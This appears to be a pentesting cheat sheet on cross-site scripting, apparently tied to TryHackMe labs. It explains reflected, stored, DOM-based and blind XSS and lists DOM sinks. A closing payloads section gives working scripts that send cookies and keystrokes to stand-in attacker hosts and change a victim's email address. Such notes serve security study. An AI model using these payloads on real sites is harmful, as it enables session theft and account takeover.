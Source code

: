 # Cross Site Scripting(XSS)

### Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### Reflected XSS arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

-   Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

<!-- -->


Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### The payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information
-  Nicknames in a chatroom  
- Website Listings

<!-- -->

				Dom-Based XSS		
##### Contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

- Attack vector is usually the url

- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

- attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with.

Common sinks that lead to Dom-XSS:
-  document.write()
-  document.writeln()
-  document.domain
-  element.innerHTML
-  element.outerHTML
-  element.insertAdjacentHTML
-  element.onevent

<!-- -->

 
					Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
## Cookie stealing
python -m SimpleHTTPServer 80
`<script>new Image().src="http://$IP/index.php?c="+document.cookie;</script>`

## Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)